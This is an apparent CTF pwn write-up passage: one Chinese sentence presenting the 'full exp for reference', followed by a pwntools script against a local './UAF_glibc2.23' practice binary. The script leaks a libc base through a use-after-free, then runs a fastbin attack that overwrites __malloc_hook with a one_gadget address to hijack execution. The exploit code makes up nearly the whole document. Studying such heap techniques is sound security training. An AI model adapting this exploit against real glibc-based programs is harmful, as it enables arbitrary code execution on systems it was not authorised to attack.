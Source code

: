 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01bcbe77385c3767d3.png)

​ 完整exp如下仅供参考，由于整个程序在堆块编辑的过程中限制很宽松，大家可以自己写出更多种exp

```
from pwn import *

local = 1

binary = './UAF_glibc2.23'
libc_path = './libc-2.23.so'
port = 0

if local == 1:
    p = process(binary)

def dbg():
    context.log_level = 'debug'


def add(index, size, content):
    p.sendlineafter('&gt;', '1')
    p.sendafter('index', str(index))
    p.sendafter('size', str(size))
    p.sendafter('content:', content)


def edit(index, content):
    p.sendlineafter('&gt;', '2')
    p.sendafter('index', str(index))
    p.sendafter('content:', content)


def show(index):
    p.sendlineafter('&gt;', '4')
    p.sendafter('index', str(index))


def free(index):
    p.sendlineafter('&gt;', '3')
    p.sendafter('index', str(index))

message = "======================== LEAK LIBC ADDRESS ======================="
success(message)
add(2, 0x100, '2')
add(3, 0x10, 'protect')
free(2)
add(2, 0x30, 'aaaaaaaa')
show(2)
libc = ELF(libc_path)
libc_base = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00')) - 344 - 0x10 - libc.sym['__malloc_hook']
__malloc_hook = libc_base + libc.sym['__malloc_hook']
success("libc:`{``}`".format(hex(libc_base)))

message = "======================== FASTBIN ATTACK ======================="
success(message)
add(0, 0x60, 'aaaa')
free(0)
edit(0, p64(__malloc_hook - 0x23))
add(1,0x60,'a')
og = libc_base + 0xd5bf7
add(2,0x60,0x13 * b'\x00' + p64(og))
```